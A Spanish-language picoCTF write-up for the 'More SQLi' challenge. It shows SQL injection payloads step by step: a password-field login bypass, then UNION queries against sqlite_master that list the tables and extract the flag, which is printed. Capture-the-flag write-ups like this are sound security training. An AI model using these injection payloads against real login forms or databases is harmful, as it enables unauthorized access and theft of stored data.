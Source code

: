 # More SQLi

## Descripcion
Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:53303/).
## Solucion
Vamos al link que nos da el reto y probamos con credenciales para logging basicas como `username:admin; password:admin`
Y despues de hacer esto, vemos que el sitio nos dice como es que se esta devolviendo la consulta:
```
username: admin
password: admin
SQL query: SELECT id FROM users WHERE password = 'admin' AND username = 'admin'
```
Entonces para generar nuestra SQL inyection debemos de hacerlo en el password en lugar del username:

```
username: adsasd
password: asd' or 1=1--
```

Vemos que ahora tenemos otro campo de City, y al probar a buscar algo que no existe no regresa nada, pero hay una columna que nos dice `Maybe all the tables` lo que nos da una pista de necesitamos ver mas tablas.
Probamos a inyectar código SQL en el campo de City y vemos que funciona:
```sql
flag' or 1=1--
```
Preparamos nuestra query con los datos que teníamos de que existe una tabla llamada users

```sql
flag' or 1=1 UNION Select * from users--
```

Vemos que esta nos regresa una nueva columna con los datos del administrador
`| admin | moreRandOMN3ss | 1`
Pero parece ser que no sirve de nada
Ahora la pista que nos dan es que tenemos un SQLite por lo que en SQLite hay una forma de poder consultar los datos de las tablas.

```sql
flag' UNION SELECT name, null, null from sqlite_master WHERE type='table';
```

Buscando mas documentación nos encontramos con que podemos también consultar el nombre de las columnas con la columna sql de la tabla sqlite_master.

```sql
flag' UNION SELECT name, sql, null from sqlite_master WHERE type='table';
```

Nos regresa lo siguiente:

| City       | Address                                                                                     | Phone |
| ---------- | ------------------------------------------------------------------------------------------- | ----- |
| hints      | CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)                             |       |
| more_table | CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)                        |       |
| offices    | CREATE TABLE offices (id INTEGER NOT NULL PRIMARY KEY, city TEXT, address TEXT, phone TEXT) |       |
| users      | CREATE TABLE users (name TEXT NOT NULL PRIMARY KEY, password TEXT, id INTEGER)              |       |

Vemos que la tabla `more_table` tiene una columna llamada flag, entonces ahora solo tenemos que hacer una consulta a la tabla more_table para saber esta:

```sql
flag' UNION SELECT id, flag, null FROM more_table;
```

Finalmente obtenemos nuestra flag:
```flag
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}
```

Todo esto se puede hacer porque las columnas de la tabla offices son de tipo text y pueden regresar valores de tipo int tambien.

## Notas adicionales

## Referencias
